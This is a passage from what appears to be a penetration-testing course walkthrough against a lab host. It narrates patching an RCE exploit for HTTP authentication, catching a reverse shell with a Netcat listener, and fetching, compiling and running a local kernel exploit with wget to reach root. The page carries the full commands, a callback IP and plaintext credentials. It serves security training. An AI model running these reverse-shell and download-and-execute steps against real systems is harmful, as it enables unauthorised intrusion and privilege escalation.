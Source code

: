 “remote code injection”

The vulnerable software is protected with an HTTP authentication mechanism,
while the exploit we found does not deal with authentication at all. If we have
any hopes of getting this exploit to work, we need to add HTTP authentication
features to the exploit.

Now that our modified exploit is tested and working, we set up a Netcat listener
and fire off our exploit. A reverse shell is received, with low user privileges.

nc -nlvp 80

python rce-fixed.py http://admin.megacorpone.com:81/admin/sqlite/ 208.68.234.99
80 admin nanotechnology1

listening on [any] 80 ...

connect to [208.68.234.99] from (UNKNOWN) [50.7.67.190] 44872

id

uid=33(www-data) gid=33(www-data) groups=33(www-data)

python -c 'import pty;pty.spawn("/bin/bash")'

www-data\@adminsql:/var/www/admin/sqlite\$ cat /etc/issue

Ubuntu 11.10 \\n \\l

www-data\@adminsql:/var/www/admin/sqlite\$ uname -a

Linux adminsql 3.0.0-12-generic \#20-Ubuntu SMP Fri Oct 7 14:50:42 UTC 2011 i686
i686

i386 GNU/Linux

privilege escalation

www-data\@adminsql:/var/www/admin/sqlite\$ cd /tmp

www-data\@adminsql:/tmp\$ wget -O gimmemoar.c
http://www.exploit-db.com/download/18411

www-data\@adminsql:/tmp\$ gcc gimmemoar.c

gcc gimmemoar.c

www-data\@adminsql:/tmp\$ ./a.out

\# id

uid=0(root) gid=0(root) groups=0(root),33(www-data)

root\@adminsql:/tmp\# cd /var/www/

root\@adminsql:/var/www\# ls -la

root\@adminsql:/var/www\# cd daaa118f0809caa929e0c0baae75d27a

root\@adminsql:/var/www/daaa118f0809caa929e0c0baae75d27a\# ls -la

root\@adminsql:/var/www/daaa118f0809caa929e0c0baae75d27a\# cat .htaccess

Order deny,allow
